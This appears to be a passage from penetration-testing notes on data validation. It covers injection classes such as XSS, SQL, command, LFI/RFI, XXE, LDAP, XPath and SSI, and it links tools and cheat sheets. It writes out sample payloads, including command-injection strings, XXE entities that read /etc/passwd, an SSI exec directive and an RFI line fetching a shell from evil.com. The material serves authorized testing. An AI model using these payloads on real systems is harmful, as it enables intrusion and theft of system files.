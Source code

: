 > [!summary]
> Data validation is the process of ensuring that a program operates with clean, correct, and useful data. Testing this involves intentionally inputting invalid, unexpected, or random data to see how the application handles it.

> [!warning]
> Again, always make sure you have the proper authorization before performing any type of reconnaissance or penetration testing.

## Test for Cross Site Scripting (XSS)

> [!summary]
> Cross-Site Scripting (XSS) attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.

Tools: Browser, Burp Suite.

```bash
# Try inputting a script in any user-input fields.
<script>alert('XSS')</script>
```

##### Payload

- [XSS Vectors Cheat Sheet](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)

## Test for SQL Injection

> [!abstract]
> SQL Injection involves inputting SQL statements in a field to try and manipulate the application's SQL queries.

Tools: SQLmap, Browser, Burp Suite.

```bash
# Try inputting SQL statements in any user-input fields.
' OR '1'='1
# Or use sqlmap
sqlmap -u "http://www.example.com/page?param=value" --dbs
```

##### Cheat Sheet's

- [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

##### Payload

- [SQL Injection Payload List on GitHub](https://github.com/payloadbox/sql-injection-payload-list)

##### Tools

- ➡️ [sqlmap](../../Tools/sqlmap/README.md)

- Burp Suite
- OWASP ZAP
- SQLmap
- Nikto
- Wireshark

##### Articles

- [SQL injection UNION attacks @ portswigger.net](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQL injection UNION attack @ medium.com](https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635)

## Test for Command Injection

Tools: Commix, Browser, Burp Suite.

Command injection occurs when an attacker can inject and execute commands specified by the attacker in the vulnerable application.

```bash
# Try inputting command line commands in any user-input fields.
; ls

# Or in URL params
http://example.com/ping?ip=10.10.217.166`ls`

# Or use Commix
commix -u "http://www.example.com/page?param=value"
```

##### Cheat Sheet's

- [Command Injection Cheatsheet - HackersOnlineClub](https://hackersonlineclub.com/command-injection-cheatsheet/)

## Test for Local File Inclusion (LFI) / Remote File Inclusion (RFI)

Tools: Browser, Burp Suite.

LFI involves including files that exist on the server's filesystem, while RFI involves including files from remote servers.

```bash
# For LFI, try to include local files.
../../etc/passwd
# For RFI, try to include remote files.
http://evil.com/shell.txt
```

## Test for XML External Entity (XXE) Attacks

Tools: Burp Suite.

XXE attacks involve exploiting XML parsers that process user input to execute files on the server, denial of service attacks, or perform other malicious activities.

```xml
<!-- Try to include local or remote entities in any XML inputs. -->
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

## Test for LDAP Injection

LDAP Injection is an attack technique used to exploit applications that construct LDAP statements based on user input.

Tools: Burp Suite, Browser.

```bash
# Try inputting LDAP statements in any user-input fields.
*)(uid=*))(|(uid=*
```

## Test for ORM Injection

ORM Injection is an attack using SQL, HQL or other injection attacks on ORM generated queries.

Tools: Burp Suite, SQLmap.

```bash
# The payloads are typically same as SQL injection.
' OR '1'='1
```

## Test for XML Injection

XML Injection testing is when a tester tries to inject an XML doc to the application. If the XML parser fails to contextually validate data, then the test will yield a positive result.

Tools: Burp Suite, OWASP ZAP.

```bash
# Input XML doc with malicious payload in user-input fields.
<foo><![CDATA[</foo><bar>]]></bar>

# ORr in POST Request

POST /product/stock HTTP/1.1
Host: example.com
Content-Type: application/xml
Content-Length: [length]

<?xml version="1.0" encoding="UTF-8"?>
<root>
  <foo><![CDATA[</foo><bar>]]></bar>
  <!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <extra>&xxe;</extra>
</root>

```

##### Payloads

- [XXE Injection Payload List on GitHub](https://github.com/payloadbox/xxe-injection-payload-list)

## Test for SSI Injection

Server-Side Includes (SSI) Injection allows the exploitation of a web application by injecting scripts in HTML pages or executing arbitrary codes remotely.

Tools: Burp Suite, Browser.

```bash
# Try inputting SSI directives in any user-input fields.
<!--#exec cmd="/bin/ls" -->
```

## Test for XPath Injection

XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

Tools: Burp Suite, OWASP ZAP.

```bash
# Try inputting XPath queries in any user-input fields.
' or '1'='1
```

## Test for IMAP/SMTP Injection

IMAP/SMTP Injection is an attack technique used to exploit mail servers and webmail applications that construct IMAP/SMTP statements from user-supplied input, without properly validating or sanitizing the input before the mail query is made.

Tools: Burp Suite, Telnet.

```bash
# Try inputting IMAP/SMTP statements in any user-input fields.
a001 LOGIN "username" "password"
```

## Test for OS Commanding

OS command injection is a technique used when an application includes user-supplied data in a system-level command.

Tools: Comm
